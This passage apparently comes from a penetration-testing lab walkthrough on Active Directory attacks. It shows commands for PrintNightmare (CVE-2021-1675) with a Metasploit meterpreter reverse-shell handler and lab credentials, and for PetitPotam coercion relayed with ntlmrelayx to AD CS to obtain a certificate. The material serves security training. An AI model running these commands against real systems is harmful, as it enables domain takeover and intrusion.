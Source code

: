 now share this dll with **smbserver.py**

```
sudo smbserver.py -smb2support CompData /tmp/CompData

```

setup the multi-handler with msfconsole

```bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.5.225
set LPORT 8080
```

Now we can run the CVE-2021-1675 exploit

```bash
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```

# PetitPotam (MS-EFSRPC) - Attack
PetitPotam ([CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)) is an **LSA spoofing vulnerability** that was patched in August of 2021. The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the [Local Security Authority Remote Protocol (LSARPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc) by abusing Microsoft’s [Encrypting File System Remote Protocol (MS-EFSRPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31). This technique allows an unauthenticated attacker to take over a Windows domain where [Active Directory Certificate Services (AD CS)](https://docs.microsoft.com/en-us/learn/modules/implement-manage-active-directory-certificate-services/2-explore-fundamentals-of-pki-ad-cs) is in use. In the attack, an authentication request from the targeted Domain Controller is relayed to the Certificate Authority (CA) host's Web Enrollment page and makes a Certificate Signing Request (CSR) for a new digital certificate.

First off, we need to start **ntlmrelayx.py** in one window on our attack host, specifying the Web Enrollment URL for the CA host and using either the KerberosAuthentication or DomainController AD CS template. If we didn't know the location of the CA, we could use a tool such as certi to attempt to locate it.

```bash
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```


In another window, we can run the tool **PetitPotam.py**. We run this tool with the command `python3 PetitPotam.py <attack host IP> <Domain Controller IP> `to attempt to coerce the Domain Controller to authenticate to our host where **ntlmrelayx.py** is running.

```bash
python3 PetitPotam.py 172.16.5.225 172.16.5.5
```

If the PetitPotam attack success in the ntlmrelayx.py session we are able to take the **base64 certificate**
